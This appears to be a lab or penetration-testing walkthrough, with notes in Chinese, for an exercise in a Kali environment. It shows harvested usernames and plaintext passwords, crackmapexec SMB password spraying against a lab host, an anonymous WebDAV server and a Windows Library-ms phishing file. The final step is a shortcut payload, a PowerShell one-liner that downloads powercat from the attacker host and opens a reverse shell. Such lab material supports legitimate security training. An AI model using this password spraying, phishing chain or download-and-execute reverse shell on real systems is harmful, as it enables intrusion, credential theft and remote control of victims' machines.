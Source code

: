 ```armasm
kali@kali:~/beyond$ cat usernames.txt                                       
marcus
john
daniela

kali@kali:~/beyond$ cat passwords.txt
tequieromucho
DanielKeyboard3311
dqsTwTpZPn#nL
```

收集账号和密码，进行登录破解

```armasm
crackmapexec smb 192.168.50.242 -u usernames.txt -p passwords.txt --continue-on-success
没有pwn！标志，查看共享
crackmapexec smb 192.168.50.242 -u john -p "dqsTwTpZPn#nL" --shares
只读权限
```

钓鱼攻击

```armasm
mkdir /home/kali/beyond/webdav
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/beyond/webdav/
```

创建config.Library-ms

```armasm
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

创建快捷方式install，放到/home/kali/beyond/webdav目录

```armasm
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"
```
